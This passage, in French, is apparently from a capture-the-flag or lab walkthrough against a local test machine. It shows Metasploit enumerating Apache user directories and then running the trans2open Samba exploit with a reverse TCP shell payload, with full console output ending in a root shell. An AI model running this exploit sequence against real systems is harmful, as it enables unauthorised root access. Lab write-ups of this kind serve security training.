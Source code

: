 En fait le contenu du site ne semble pas avoir de véritable intérêt si ce n'est exposer des services et des infos sur les modules Apache.  

On peut aussi utiliser le module *apache\_userdir\_enum* de *Metasploit* avec une liste de noms d' utilisateurs, ce qui nous permet de trouver certains utilisateurs du système :  

```plain
[+] http://192.168.1.104/ - Users found: harold, john, operator, postgres, root, squid
```

Pwnage
------

Etant donné que le site Internet n'amène rien de probant, penchons nous sur les services en écoute.  

Metasploit a un exploit fiable pour ces vieilles versions de Samba :   

```plain
msf exploit(trans2open) > show options         

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.1.104    yes       The target address
   RPORT  139              yes       The target port

Payload options (linux/x86/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.3      yes       The listen address
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce

msf exploit(trans2open) > exploit

[*] Started reverse TCP handler on 192.168.1.3:4444 
[*] 192.168.1.104:139 - Trying return address 0xbffffdfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffcfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffbfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 192.168.1.104
[*] Command shell session 1 opened (192.168.1.3:4444 -> 192.168.1.104:32770) at 2018-02-13 21:18:00 +0100

id
uid=0(root) gid=0(root) groups=99(nobody)
```
